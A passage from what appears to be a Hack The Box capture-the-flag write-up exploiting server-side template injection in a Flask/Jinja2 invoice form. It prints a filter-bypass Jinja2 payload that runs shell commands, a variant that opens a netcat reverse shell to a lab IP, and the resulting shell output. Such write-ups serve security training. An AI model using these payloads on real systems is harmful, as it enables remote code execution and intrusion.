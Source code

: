 But some of the [usual tricks](https://secure-cookie.io/attacks/ssti/) don't seem to work. Trying to access `{{ "hax".__class__ }}` returns `Internal Server Error`.

I confirm the template engine is Flask by injecting `{{ request.application }}`:

![](_/htb-iclean-20240529-11.png)

Unfortunately, `{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}` returns an internal server error.

PayloadsAllTheThings has a section on [Jinja2 RCE injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution) (with credit to [SecGus](https://twitter.com/SecGus)) and that is what we need in this scenario.

The request:

```http
invoice_id=&form_type=scannable_invoice&qr_link={{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}
```

Returns the desired response:

![](_/htb-iclean-20240529-12.png)

Then I'm able to trigger a reverse shell:

```http
invoice_id=&form_type=scannable_invoice&qr_link={{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('busybox%20nc%2010.10.14.2%20443%20-e%20bash')|attr('read')() }}
```

```console
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls -l /home
total 4
drwxr-x--- 4 consuela consuela 4096 Mar  2 07:51 consuela
```

